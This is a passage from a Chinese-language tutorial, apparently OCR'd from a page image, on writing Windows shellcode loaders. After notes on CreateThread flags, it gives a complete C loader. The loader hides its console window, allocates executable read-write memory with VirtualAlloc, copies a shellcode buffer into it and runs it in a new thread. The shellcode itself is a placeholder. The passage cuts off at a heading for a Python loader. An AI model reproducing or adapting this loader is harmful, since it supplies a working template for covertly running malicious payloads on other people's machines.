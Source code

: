 5.dwCreationFlags : 指定新线程的创建标志。常用的标志包括：

- 0 : 默认标志，表示线程立即可执行。

- CREATE_SUSPENDED (0x00000004) : 创建后线程处于挂起状态，需要调用 ResumeThread 才能执行。


6.lpThreadId : 一个指向 DWORD 的指针，用于接收新线程的标识符（线程 ID）。如果不需要线
程 ID，可以传递 NULL 。

# 4.C语言 加载器

windows api函数我们了解了, 但是如何使用这些函数的? 用什么编程语言呢?自然是c语言啦, 在c语言中可以很方便的调用 windows api函数, 帮助我们编写shellcode加载器

## 4.1加载器代码

```c_cpp
#include <windows.h> // Windows API 和 一些常量
#include <stdio.h> // 标准输入输出库的头文件
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗
口
unsigned char buf[] = "16进制字符串shellcode \xfc";
void main() {
 // 使用VirtualAlloc 函数申请一个 shellcode字节大小的可以执行代码的内存块
 LPVOID exec = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, 
PAGE_EXECUTE_READWRITE);
 // 申请失败 , 退出
 if (exec == NULL) {
 return;
 }
 // 把shellcode拷贝到这块内存
 memcpy(exec, buf, sizeof(buf));
 // 创建线程运行
 HANDLE hThread = CreateThread(
NULL,
 NULL,
 (LPTHREAD_START_ROUTINE)exec,
 NULL,
 NULL,
 0);
 // 等待线程运行
 WaitForSingleObject(hThread, -1);
 // 关闭线程
 CloseHandle(hThread);
}
```

# 5.Python语言 加载器

## 5.1加载器代码
